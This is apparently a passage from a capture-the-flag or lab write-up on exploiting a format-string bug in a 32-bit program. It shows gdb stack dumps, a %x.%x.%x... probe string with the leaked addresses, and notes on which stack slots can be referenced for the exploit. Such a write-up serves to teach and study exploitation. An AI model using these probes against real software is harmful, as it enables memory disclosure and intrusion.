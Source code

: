 ```
0xffffd648:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd658:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd668:     0x00000008      0x00000000      0x00000009      0x08048470
0xffffd678:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xffffd688:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xffffd698:     0x00000017      0x00000000      0x00000019      0xffffd6cb
0xffffd6a8:     0x0000001f      0xffffdfb0      0x0000000f      0xffffd6db
0xffffd6b8:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb)
```

Let's also find out what value will be the first stack address when ```printf()``` is called.

```
(gdb) c
Continuing.
%x.%x.%x.%x.%x.%x.
               _
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
             //804a01a.f7fc5c20.8048722.804a01a.804a368.804a008.                 /
            //                                   /
           //                                   /
          //                                   /
         //                                   /
        //                                   /
       //___________________________________/
      //
     //
    //
   //
  //
 //
```

This location of these addresses in the stack tell us that only the following stack values can be used for our exploit. The first listed is the 3$ value that can be referenced by format specifiers.

```
0xffffd4e8:                                                     0x0804a368
0xffffd4f8:     0x0804a008      0x00000358      0xf7fc53c4      0xffffd520
0xffffd508:     0x00000000      0xf7e35a63      0x080486d0      0x00000000
0xffffd518:     0x00000000      0xf7e35a63      0x00000001      0xffffd5b4
0xffffd528:     0xffffd5bc      0xf7feac3a      0x00000001      0xffffd5b4
0xffffd538:     0xffffd554      0x08049988      0x08048288      0xf7fc5000
0xffffd548:     0x00000000      0x00000000      0x00000000      0x846f5c8a
0xffffd558:     0xbd71589a      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000001      0x08048470      0x00000000      0xf7ff0470
0xffffd578:     0xf7e35979      0xf7ffd000      0x00000001      0x08048470
0xffffd588:     0x00000000      0x08048491      0x080485da      0x00000001
0xffffd598:     0xffffd5b4      0x080486d0      0x08048740      0xf7feb0f0
0xffffd5a8:     0xffffd5ac      0x0000001c      0x00000001      0xffffd6e1
0xffffd5b8:     0x00000000      0xffffd729      0xffffd73c      0xffffd74c
0xffffd5c8:     0xffffd757      0xffffd780      0xffffd7a2      0xffffd7b5
0xffffd5d8:     0xffffd7c1      0xffffdd5a      0xffffdd66      0xffffde08
0xffffd5e8:     0xffffde1e      0xffffde23      0xffffde65      0xffffde8a
0xffffd5f8:     0xffffde9b      0xffffdee1      0xffffdeea      0xffffdefc
0xffffd608:     0xffffdf04      0xffffdf13      0xffffdf46      0xffffdf6a
0xffffd618:     0xffffdf89      0x00000000      0x00000020      0xf7fd9d60
0xffffd628:     0x00000021      0xf7fd9000      0x00000010      0xbfebfbff
0xffffd638:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd648:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd658:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd668:     0x00000008      0x00000000      0x00000009      0x08048470
0xffffd678:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xffffd688:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
```